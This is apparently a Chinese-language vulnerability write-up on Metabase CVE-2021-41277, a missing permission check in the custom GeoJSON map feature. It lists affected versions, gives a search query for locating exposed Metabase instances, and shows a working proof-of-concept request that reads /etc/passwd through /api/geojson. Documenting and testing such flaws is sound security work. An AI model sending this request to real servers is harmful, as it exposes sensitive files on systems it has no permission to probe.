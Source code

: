 # Metabase geojson 任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息

## 漏洞影响

<a-checkbox checked>metabase version < 0.40.5</a-checkbox></br>

<a-checkbox checked>metabase version >= 1.0.0, < 1.40.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="metabase"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637464175182-c424a2a6-1b8c-4550-adc7-55574c923347.png)

验证POC

```python
/api/geojson?url=file:/etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637464214932-3531a00c-8968-4104-9f6d-a0962cdef98e.png)